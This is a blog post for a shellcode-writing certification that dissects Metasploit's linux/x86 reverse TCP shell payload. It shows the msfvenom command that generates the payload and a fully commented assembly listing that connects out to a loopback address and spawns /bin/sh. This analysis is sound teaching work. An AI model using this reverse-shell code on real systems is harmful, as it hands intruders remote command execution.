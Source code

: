 ```yaml
---
layout: post
title: "SLAE Problem 5.1: Msfvenom Analysis of linux/x86/shell_reverse_tcp"
description: "Analysis of Msfvenom shellcode: linux/x86/shell_reverse_tcp"
tags: [asm, shellcode, msfvenom]
---
```


This blog post has been created for completing the requirements for the SecurityTube
Linux Assembly Expert certification:
[<http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert>](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert)

Student ID: SLAE-824

## Requirements

- Choose at least 3 shellcode samples created using Msfvenom for linux/x86
- Use GDB/Ndisasm/Libemu to dissect the functionality of the shellcode
- Present your analysis

### Analysis

Since I had created a reverse tcp shellcode for assignment 2 of the SLAE
I decided that it would be interesting to look at msfvenom's version and
to see how it differed from mine. To do so I did the following:

Generate a linux/x86/shell_reverse_tcp shellcode using:

{% highlight bash %}
msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.1.1.1 R > revshell.bin
{% endhighlight %}

It defaults to LPORT=4444 so there is no need to set it.

Next, I ran the shellcode using Libemu and generated a .dot file:

{% highlight bash %}
/usr/bin/sctest -vvv -S -s 10000 -G revshell.dot < revshell.bin
{% endhighlight %}

I then converted the dot file to a png using:

{% highlight bash %}
dot -Tpng revshell.dot > revshell.png
{% endhighlight %}

Which gives us:

<img src="{% asset_path 'revshell.png' %}" alt="revshell.png" style="width: 500px;"/>

Cool. Looking at the purple boxes we see that the system calls that are
being used are:

- socket
- dup2
- connect
- execve

Those were the same socket calls that were used in the reverse shell
for assignment 2. Lets analyze things at the assembly level:

#### MSFVenom Socket:
{% highlight nasm %}
; Socket
;; Clear out ebx
xor ebx,ebx

;; Clear out eax as eax is the implied destination
;; When anything is multiplied by 0 it will be zero
;; I'm not sure why this is done as the byte count ends up
;; being the same. Example:

;; xor ebx, ebx
;; mul ebx
;; = "\x31\xDB\xF7\xE3"

;; Versus:
;; xor eax, eax
;; xor ebx, ebx
;; = "\x31\xC0\x31\xDB"

mul ebx

;; Protocol INADDR_ANY Accept on any interface 0x00000000
;; Push this value onto the stack
push ebx

;; Increment ebx. This is pushed to the stack for
;; SOCK_STREAM socket type of 1 as well as left in
;; the register as 1 is the sys_socket syscall number
inc ebx
push ebx

push byte 0x2 ;; Domain af_inet sets protocol family to ip protocol 2
mov ecx,esp ;; Pointer to sys_socket args
mov al,0x66 ;; socketcall syscall
int 0x80 ;; Call socket syscall

; Save returned file descriptor
; Not only does it save the file descriptor but
; It sets up ebx for the Dup2 call
; Which is the "New File Descriptor"
; That will be used in place of the "Old File Descriptor"
; Killing 2 birds with 1 stone
xchg eax,ebx

; Load 0x2 into ecx for the dup2 loop counter and fd number
pop ecx

; Dup2 loop
mov al,0x3f ; Place dup2 syscall in al
int 0x80 ; Duplicate fd
dec ecx ; Decrement to the next file descriptor number
jns 0xfffffffb ; Loop

; Connect
; Build sockaddr_in structure
push dword 0x101017f ; inet_addr("127.1.1.1") = 0x0101017f

;; Push port 4444 in big endian network byte order
;; and sin_family of AF_INET
;; This places 2  values on the stack in 1 operation
;; This does seem to introduce a null byte though...
push dword 0x5c110002

;; Mov pointer to sockaddr_in structure
mov ecx,esp

mov al, 0x66 ;; socketcall syscall
push eax ; addrlen
push ecx ; sockaddr_in struct pointer
push ebx ; socket file descriptor
mov bl,0x3 ; sys_call 3 which is connect()
mov ecx,esp ; pointer to connect args
int 0x80

; Execve
push edx ; 0x00000000
push dword 0x68732f6e ;"hs/n"
push dword 0x69622f2f ;"ib//"
mov ebx,esp ; place filename string in ebx
push edx ; 0x00000000
push ebx ; push pointer to program string
mov ecx,esp ; place pointer program args in ecx
mov al,0xb ; execve syscall
int 0x80
{% endhighlight %}

All in all this MSFvenom shellcode looks very similar to the one I had created
in assignment 2. There are some slight differences like using `mul` to clear
out `eax` as opposed to just using `xor`. One cool trick the MSFvenom version
was doing was using a push dword with the port and sin_family in 1 operation.
`push dword 0x5c110002` instead of what I had in my version:

        push word 0x5c11 ; sin_port=4444 (network byte order)
        push word bx     ; sin_family=AF_INET (0x2)

If we look at the objdump of a little nasm program to compare the instructions
we see:

1. Using 2 xor operations yields the same number of bytes/opcodes as using an xor and a mul instruction
2. Using a single dword push instruction instead of 2 push word instructions yields 1 less byte/opcode but it does introduce a null byte.

<img src="{% asset_path 'opcodeComparison.png' %}" alt="opcodeComparison.png" style="width: 500px;"/>

It was really interesting to see what MSFvenom generated shellcode looks like.
Doing this exercise has taken a bit of the mystique of MSFVenom away and I look
forward to analyzing more shellcode from it to see what else I can learn.
